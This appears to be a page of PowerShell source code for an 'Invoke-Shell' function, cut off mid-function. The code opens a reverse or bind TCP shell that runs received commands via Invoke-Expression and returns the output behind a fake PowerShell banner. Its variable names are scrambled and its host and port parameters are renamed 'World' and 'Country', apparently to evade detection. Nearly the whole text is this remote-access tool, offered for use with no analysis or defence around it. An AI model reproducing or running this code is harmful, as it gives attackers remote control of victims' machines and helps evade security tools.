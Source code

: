 ### Invoke-Shell

```
function Invoke-Shell 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $World,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Country,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    try 
    {
        if ($Reverse)
        {
            $dGtrfokiudfjhvnjfe = New-Object System.Net.Sockets.TCPClient($World,$Country)
        }

        if ($Bind)
        {
            $eDDfh987654567 = [System.Net.Sockets.TcpListener]$Country
            $eDDfh987654567.start()    
            $dGtrfokiudfjhvnjfe = $eDDfh987654567.AcceptTcpClient()
        } 

        $zrt54789dvbgH = $dGtrfokiudfjhvnjfe.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes("Windows PowerShell`nMicrosoft Corporation.`n`n")
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        $gfklighloiujGHds = ([text.encoding]::ASCII).GetBytes('$ ' + (Get-Location).Path + '>>')
        $zrt54789dvbgH.Write($gfklighloiujGHds,0,$gfklighloiujGHds.Length)

        while(($i = $zrt54789dvbgH.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                $Poec56fd345 = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something wrong" 
                Write-Error $_
```